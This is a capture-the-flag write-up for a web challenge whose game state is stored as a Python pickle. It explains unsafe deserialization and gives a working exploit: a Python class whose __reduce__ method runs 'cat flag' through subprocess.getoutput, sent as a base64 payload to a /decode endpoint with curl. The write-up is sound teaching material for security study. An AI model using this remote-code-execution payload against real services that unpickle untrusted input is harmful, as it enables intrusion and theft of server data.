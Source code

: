 # apple-clicker write-up

> My mom said cookies are bad for me, so I am not allowed to play Cookie Clicker anymore.
>
> Luckily, I found a game called Apple Clicker, which is equally fun, and much healthier!

When opening the challenge, we find a very simple game. Click the apple, and a counter increases. We do notice that game state is saved between refreshes. There seems to be a cryptic `gameState` flag in `localStorage`, and a call to `/encode` happens for every click. On first page load, we see a call to `/decode`.

Inspecting the requests and the code a bit better, we find that it is referred to as a "pickle". It is easy to find that `pickle` is a Python (de)serialization module. The [documentation](https://docs.python.org/3/library/pickle.html) states in a red banner:

> Warning: The pickle module is not secure. Only unpickle data you trust.

That seems promising!

It turns out that the `pickle` module allows us to get remote code execution. There are many blog posts and tutorials about this, this write-up is based on [David Hamann's explanation](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

Sadly, the CTF network is not set up to get a shell in the same way as this blog post describes (reverse connections from the CTF machine to the contestants are not allowed by the firewall). We need to find another solution. A simple alternative is by using `subprocess.getoutput`. We can first run `ls` to find the file `flag`, then `cat` it to get the solution.

```python
import pickle
import base64
import subprocess


class RCE:
    def __reduce__(self):
        # First use `ls` to look around on the server and find the file 'flag'
        # cmd = 'ls'
        cmd = 'cat flag'
        return subprocess.getoutput, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
```

Running this gives us a base64 value, which we can just send with cURL instead of the browser, directly giving us the flag.

```bash
$ curl -X POST http://<IP>/decode -d '{"pickle": "gASVKwAAAAAAAACMCnN1YnByb2Nlc3OUjAlnZXRvdXRwdXSUk5SMCGNhdCBmbGFnlIWUUpQu"}' -H 'Content-Type: application/json'
{"state":"flg{1234}"}
```
